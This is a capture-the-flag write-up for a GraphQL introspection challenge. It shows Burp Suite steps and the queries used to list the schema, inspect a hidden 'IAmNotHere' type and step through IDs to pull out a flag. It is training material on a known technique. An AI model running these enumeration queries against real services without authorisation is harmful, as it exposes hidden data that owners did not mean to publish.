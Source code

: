 # Challenge22: GraphQL - Introspection

## Reference:
    - GraphQL doc: https://graphql.org/learn/introspection/
    - StackOverflow on "Get GraphQL whole schema": https://stackoverflow.com/questions/37397886/get-graphql-whole-schema-query

# Solution:

    1. Open Burp Suite and open target site.
    2. This is an example query:

```json
{"query":"{ rockets(country: \"France\") { name, country, is_active } }"}
```
    
    3. Based on GraphQL Introspection Doc, i tried to make this query:
```json
{"query":
	"{ __schema {   types {     name    }}}"
}
```
    4. This query above will return all __Types__ including "Rocket", but there is a type that's kind of sus :():
```
IamNotHere
``` 
    5. Now, we can inspect type "IamNotHere" by make this query:
```json
Request:

{"query":
	"{ __type(name: \"IAmNotHere\") { name   fields { name type { name kind     }   } }}"
}

Response:

{"data":{"__type":{"name":"IAmNotHere","fields":[{"name":"very_long_id","type":{"name":"Int","kind":"SCALAR"}},{"name":"very_long_value","type":{"name":"String","kind":"SCALAR"}}]}}}
```

    6. Now try to query very_long_value with very_long_id:

```json
{"query":"{ IAmNotHere(very_long_id: 1) { very_long_value } }"}
``` 

    7. You can increase very_long_id to get flag:

```json
{"data":{"IAmNotHere":[{"very_long_value":"Congratulations, you can use this flag: ... }}} 
```
